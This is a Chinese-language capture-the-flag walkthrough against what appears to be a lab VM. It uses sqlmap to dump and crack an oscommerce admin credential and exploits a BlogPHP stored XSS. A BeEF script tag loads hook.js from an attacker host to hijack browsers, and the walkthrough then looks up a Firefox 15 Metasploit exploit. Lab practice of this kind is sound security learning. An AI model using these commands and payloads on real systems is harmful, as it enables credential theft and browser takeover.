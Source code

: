 `oscommerce`数据库

```sh
sqlmap -u http://192.168.110.151/blog/index.php?search=1 --level 3 -D oscommerce -T osc_administrators -C user_name,user_password --dump
```

```
Database: oscommerce
Table: osc_administrators
[1 entry]
+-----------+-------------------------------------+
| user_name | user_password                       |
+-----------+-------------------------------------+
| admin     | 685cef95aa31989f2edae5e055ffd2c9:32 |
+-----------+-------------------------------------+
```

爆破出来是：32admin

然后尝试写shell，并没有权限

```
searchsploit blogphp -m 17640
```

这还有个xss

```sh
How to exploit:
1- Go there : http://localhost/blogphp/register.html.
2- Put in the Username field the XSS Code.  Example:<META http-equiv="refresh" content="0;URL=http://www.google.com">  .
3- Put anything in the other field ( Password & E-mail).
4- Now anyone go there : http://localhost/blogphp/members.html will redirected to google.com OR exploit your XSS Code.
```

用户名处，存在xss，然后访问members.html

![image-20250215213136771](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215213136771.png)

用beef-xss测试

`<script src="http://192.168.110.7:3000/hook.js"></script>`

![image-20250215213409465](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215213409465.png)

等待后台点击

![image-20250215213247928](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215213247928.png)

发现火狐浏览器版本很低，`Mozilla/5.0 (X11; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0`

```sh
searchsploit firefox 15
Mozilla Firefox 5.0 < 15.0.1 - __exposedProps__ XCS Code Execution (Metasploit)
```
